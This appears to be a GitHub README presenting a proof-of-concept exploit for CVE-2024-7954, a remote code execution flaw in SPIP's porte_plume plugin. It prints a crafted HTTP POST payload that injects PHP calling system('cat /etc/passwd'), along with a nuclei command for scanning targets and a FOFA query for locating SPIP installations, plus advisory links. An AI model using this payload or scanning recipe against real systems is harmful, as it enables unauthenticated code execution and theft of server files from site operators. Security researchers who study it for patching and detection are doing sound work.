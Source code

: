 # CVE-2024-7954
The porte_plume plugin used by SPIP before 4.30-alpha2, 4.2.13, and 4.1.16 is vulnerable to an arbitrary code execution vulnerability. A remote and unauthenticated attacker can execute arbitrary PHP as the SPIP user by sending a crafted HTTP request.


### Exploit (Proof of concept)
```bash
POST /index.php?action=porte_plume_previsu HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

data=AA_[<img111111>->URL`<?php system('cat /etc/passwd'); ?>`]_BB
```
### Usage
``` bash
nuclei --target {host.com} -t CVE-2024-7954.yaml
```

### FOFA query
```bash
app="SPIP"
```

#### Reference
- https://blog.spip.net/Mise-a-jour-critique-de-securite-sortie-de-SPIP-4-3-0-alpha2-SPIP-4-2-13-SPIP-4.html
- https://thinkloveshare.com/hacking/spip_preauth_rce_2024_part_1_the_feather/
- https://vulncheck.com/advisories/spip-porte-plume
- https://nvd.nist.gov/vuln/detail/CVE-2024-7954
- https://security-tracker.debian.org/tracker/CVE-2024-7954

